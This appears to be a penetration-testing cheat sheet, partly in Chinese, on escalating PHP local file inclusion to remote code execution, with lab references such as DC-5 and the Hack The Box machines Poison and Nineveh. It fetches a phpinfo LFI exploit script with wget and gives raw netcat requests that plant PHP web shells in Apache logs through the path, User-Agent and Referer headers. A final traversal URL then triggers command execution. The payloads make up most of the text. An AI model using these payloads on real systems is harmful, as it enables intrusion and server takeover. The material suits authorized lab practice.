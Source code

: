```bash
## lfi linux list, https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt
## lfi windows list, https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt
```

### phpinfo rce
+ phpinfo, file upload on.[phpinfo rce](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo)
+ htb poison, nineveh

```bash
# check phpinfo, file_uploads

# download exp
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py

# modify exp
## copy phpshell.php to exp, payloads=
## change the lfi url
## check the search keywords. tmp_name, two place

# 

```

### log rce
+ 参考DC-5
+ logfile rce, http header injection(user-agent); htp poison, notice the ""

```bash
//nc send payload
nc -nv ip 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close

#errorlog
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close

#referer parameter
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close

#访问
http://192.168.3.2/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```
